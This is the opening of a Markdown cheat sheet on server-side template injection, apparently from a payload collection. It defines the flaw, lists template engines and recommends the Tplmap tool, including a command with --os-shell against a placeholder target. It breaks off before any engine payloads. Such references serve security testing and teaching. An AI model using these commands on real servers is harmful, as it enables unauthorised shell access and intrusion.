 # Server Side Templates Injection

> Template injection allows an attacker to include template code into an existing (or not) template. A template engine makes designing HTML pages easier by using static template files which at runtime replaces variables/placeholders with actual values in the HTML pages

## Table of Contents

-   **[Tools](#tools)**
-   **[Methodology](#methodology)**

**Engines:**

-   [Ruby](#ruby)
-   [ERB](#erb)
-   [Slim](#slim)
-   [Java](#java)
-   [Expression Language EL](#expression-language-el)
-   [Twig](#twig)
-   [Smarty](#smarty)
-   [Freemarker](#freemarker)
-   [Pebble](#pebble)
-   [Jade / Codepen](#jade---codepen)
-   [Velocity](#velocity)
-   [Mako](#mako)
-   [Jinja2](#jinja2)
-   [Jinjava](#jinjava)
-   [Handlebars](#handlebars)
-   [ASP.NET Razor](#aspnet-razor)
-   [Tornado](#tornado)

## Tools

Recommended tool: [Tplmap](https://github.com/epinna/tplmap) e.g:

    python2.7 ./tplmap.py -u 'http://www.target.com/page?name=John*' --os-shell
    python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=*&comment=supercomment&link"
    python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=InjectHere*&comment=A&link" --level 5 -e jade

# Methodology

[![SSTI cheatsheet workflow](https://github.com/swisskyrepo/PayloadsAllTheThings/raw/master/Server%20Side%20Template%20Injection/Images/serverside.png?raw=true)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Images/serverside.png?raw=true)

## Ruby

### Ruby - Basic injections
